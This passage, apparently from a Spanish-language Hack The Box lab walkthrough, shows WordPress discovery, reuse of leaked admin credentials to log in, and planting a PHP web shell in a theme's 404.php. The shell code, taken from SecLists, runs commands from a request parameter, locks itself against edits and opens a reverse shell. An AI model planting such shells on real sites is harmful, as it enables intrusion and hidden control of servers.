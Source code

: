 Este script nos ha descubierto dos rutas potenciales en el servidor web. Estas dos rutas son /wordpress y /wordpress/wp-login.php, por lo tanto, podremos intuir que estamos ante el CMS (Content Management System) Wordpress. La primera de las rutas nos indicará la ruta raíz del blog wordpress y la segunda de ellas el panel de login para administrarlo.

<br>

Como tenemos un panel de login y sabemos que esta máquina esta relacionada de algún modo con la máquina Vaccine, probaremos a usar las credenciales de acceso a PostgreSQL que teníamos en esa máquina. Estas son:

```plaintext
File: wpCred

admin:P@s5w0rd!
```

Por tanto, nos dirigiremos a http://10.10.10.29/wordpress/wp-login.php e introduciremos las credenciales. Podemos ver que son correctas.

<br>

## Shell de usuario

### Wordpress Plugin Shell
Una vez estamos en el panel de control de Wordpress nos dirigiremos a la sección de apariencia y después al editor de temas:

<img src="https://i.imgur.com/QFSCp2u.png" width=200>

Una vez dentro del editor de temas, elegiremos uno de los temas incluidos y modificaremos su página 404.php. Esta página, será la que se muestre cuando intentemos acceder a un recurso del tema que no exista:

<img src="https://i.imgur.com/9THIgF8.png" width=300>

Usaremos la plugin-shell.php de [SecLists](https://github.com/danielmiessler/SecLists). Ésta es una web-shell que nos permitirá ejecutar comandos mediante un argumento PHP, en este caso "cmd":

```php
File: plugin-shell.php

<?php

$this_file = __FILE__;
@system("chmod ugo-w $this_file");
@system("chattr +i $this_file");


$cmd = 'cmd';


if(isset($_REQUEST[$cmd])) {
    $command = $_REQUEST[$cmd];
    executeCommand($command);
} else if(isset($_REQUEST[$ip]) && !isset($_REQUEST[$cmd])) {
    $ip = $_REQUEST[$ip];
    $port = '443';
    if(isset($_REQUEST[$ip])){
        $port = $_REQUEST[$port];
    }
    $sock = fsockopen($ip,$port);
    $command = '/bin/sh -i <&3 >&3 2>&3';
    executeCommand($command);       
}
die();

```